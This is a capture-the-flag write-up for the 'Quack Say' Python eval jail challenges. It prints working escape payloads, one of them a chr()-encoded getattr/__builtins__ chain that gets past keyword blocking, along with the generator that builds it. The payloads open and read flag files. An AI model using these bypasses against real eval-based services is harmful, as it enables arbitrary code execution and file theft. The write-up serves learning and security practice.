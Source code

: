 # Quack Say

For `jail1.py` -

```
exec('import os, sys;sys.stdout = sys.__stdout__;flag = open("flag1.txt").read();print(flag);sys.stdout = open(os.devnull, "w")')
```

For `jail2.py` -

```
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(102)+chr(108)+chr(97)+chr(103)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(50)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(102)+chr(108)+chr(97)+chr(103)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

This was without a doubt the most gruelling problem of this set. I surely spent over 1 hour on `jail1.py` and maybe even 4-5 hours searching for different methods to solve `jail2.py`.

I had a few immediate observations on seeing the code.

First of all, the list of blocked words in `jail2.py` was a hint to solving `jail1.py`. 

The `eval()` function only computes expressions, but I wanted to run my own code. On Googling, I found that an `exec` statement could be used inside an `eval()`.

To get the required print output, I designed this piece of code -

```python
import os, sys
sys.stdout = sys.__stdout__
flag = open("flag1.txt").read()
print(flag)
sys.stdout = open(os.devnull, "w")
```

In brief, this code prints a text to the `default stdout`, then redirects the output of the `stdout` stream to `os.devnull` (trash). Hence, any more text will not be printed to the console.

Now, we just need to wrap an `exec()` function around this and we're done with `jail1.py`.

The next part was much more difficult.

On exploring internet, I first found the `compile()` function which compiles python source code into AST objects. I assumed that if I somehow could export this output into a string, it would not contain any part of the cleartext (original code), and I would successfully be able to pass it as input.

However, I was unable to get around this problem. I found [this](https://stackoverflow.com/questions/71510595/serialize-python-code-object-from-compile) question on StackExchange looking for exactly what I wanted, but was unsolved.

I started with another approach. The `eval()` function accepts a string, whose encoding I thought I could manipulate. I started searching for various encoding streams of `string.encode()` in python, which would scramble my cleartext to make it pass.

Again, I was stuck trying to find one such encoding and left this approach.

At this point I had spent atleast 2-3h reading articles on [Python Bytecode](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d), [compile()](https://docs.python.org/3/library/functions.html#compile) and [eval()](https://medium.com/techtofreedom/the-eval-function-in-python-a-powerful-but-dangerous-weapon-ba44e39fa9e2) without much success.

One common thing I notices in most of these articles was that the `eval()` function is quite insecure, and even simple checks (like making sure the expression does not delete system files, or doesn't modify variables) are readily exploitable.

I started searching more on this and came across [this](https://stackoverflow.com/questions/3513292/python-make-eval-safe) answer on Stack.

```
> are eval's security issues fixable or are there just too many tiny details to get it working right?

Definitely the latter -- a clever hacker will always manage to find a way around your precautions.
``` 

I then searched for some of these exploits and came across 3-4 of them - using `pyparsing`, `ast`, `binascii` and `getattr + ord`.

To avoid importing anything, I looked more into the `getattr + ord` exploit and came across [**this**](https://stackoverflow.com/questions/13066594/is-there-a-way-to-secure-strings-for-pythons-eval) answer on Stack which was basically it.

The exploit -

```python
def to_chrs(text):
    return '+'.join('chr(%d)' % ord(c) for c in text)

def _make_getattr_call(obj, attr):
    return 'getattr(*(list(%s for a in chr(1)) + list(%s for a in chr(1))))' % (obj, attr)

def make_exploit(code):
    get = to_chrs('get')
    builtins = to_chrs('__builtins__')
    eval = to_chrs('eval')
    code = to_chrs(code)
    return (_make_getattr_call(
                _make_getattr_call('globals()', '{get}') + '({builtins})',
                '{eval}') + '({code})').format(**locals())
```

Using `make_exploit()` on the code 

```
exec('import os, sys;sys.stdout = sys.__stdout__;flag = open("flag2.txt").read();print(flag);sys.stdout = open(os.devnull, "w")')
```
we finally generate a looooooooong input which does pass `file2.py` and we are done.

The final commands are -

```bash
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 1
exec('import os, sys;sys.stdout = sys.__stdout__;flag = open("flag1.txt").read();print(flag);sys.stdout = open(os.devnull, "w")')
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 2
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(102)+chr(108)+chr(97)+chr(103)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(50)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(102)+chr(108)+chr(97)+chr(103)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

~~command for file2 doesn't fit in my terminal stdin lol and has to be sent via redirection.~~